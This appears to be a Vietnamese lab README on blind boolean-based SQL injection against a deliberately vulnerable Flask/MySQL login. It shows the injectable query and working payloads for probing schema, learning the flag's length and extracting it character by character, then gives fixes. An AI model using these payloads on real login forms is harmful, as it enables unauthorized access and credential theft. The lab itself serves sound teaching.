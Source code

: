 # Blind Boolean-based SQLi Lab(Flask + MySQL + Docker)

## Mục tiêu
- Minh họa **Blind Boolean-based SQL Injection** trên **trang đăng nhập**.
- Username cố định `admin`. **Mật khẩu = FLAG** lưu trong DB.
- Ứng dụng **không** hiển thị lỗi SQL; chỉ báo *“Đăng nhập thành công/Thất bại”*.

## Chạy lab
```bash
docker compose up --build
# Mở: http://127.0.0.1:5005/login
```

## Lỗ hổng
Trong `app.py`:
```python
query = (
    "SELECT id FROM users "
    f"WHERE username = '{username}' AND password = '{password}' LIMIT 1"
)
```
`username`, `password` được **nối thẳng** vào câu SQL. Khi nhập `username=admin`, kẻ tấn công chèn SQL trong ô **password**.
- Nếu biểu thức boolean là **TRUE** → truy vấn khớp → **Đăng nhập thành công**.
- Nếu **FALSE** → **Đăng nhập thất bại**.

Đây là đặc trưng của **blind boolean-based** (phân biệt qua hành vi/ UI, không cần thông báo lỗi).

## Khai thác
`username=admin`. Tấn công vào trường **password** bằng cách đóng chuỗi `'` rồi thêm điều kiện:
```
' OR (điều_kiện_boolean) -- -
```
> Câu gốc:
> `... AND password = '<payload>'`
>
> Sau chèn:
> `... AND password = '' OR (điều_kiện) -- -`
>
> Kết quả phụ thuộc TRUE/FALSE của `(điều_kiện)`.

### Kiểm tra kênh TRUE/FALSE
- TRUE:
```
password: ' OR (SELECT 1) -- -
```
- FALSE:
```
password: ' OR (SELECT 0) -- -
```
Quan sát: TRUE → “Đăng nhập thành công”, FALSE → “Đăng nhập thất bại”.

### Kiểm tra tồn tại bảng/cột (nếu cần)
- Bảng `users`:
```
' OR (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database() AND table_name='users')>0 -- -
```
- Cột `password`:
```
' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_schema=database() AND table_name='users' AND column_name='password')>0 -- -
```

### Dò độ dài FLAG
```
' OR (LENGTH((SELECT password FROM users WHERE username='admin')) > 20) -- -
```
Nếu “thành công” → độ dài > 20 là **TRUE**. Dùng nhị phân để tìm đúng LENGTH.

### Dò từng ký tự (SUBSTRING/ASCII)
Ký tự thứ `i`:
```
' OR (ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'), i, 1 )) > 70) -- -
```
Dùng so sánh `>`/`<`/`=` để suy ra ASCII → ra ký tự.  
Hoặc so sánh trực tiếp:
```
' OR (BINARY SUBSTRING((SELECT password FROM users WHERE username='admin'), i, 1 )='F') -- -
```

## Cách vá
- Dùng **prepared statements** / **parameterized queries**:
  ```python
  cur.execute(
      "SELECT id FROM users WHERE username=%s AND password=%s LIMIT 1",
      (username, password)
  )
  ```
- Thêm cơ chế khóa/đếm số lần thử.
- Tránh khác biệt UI rõ rệt giữa TRUE/FALSE.
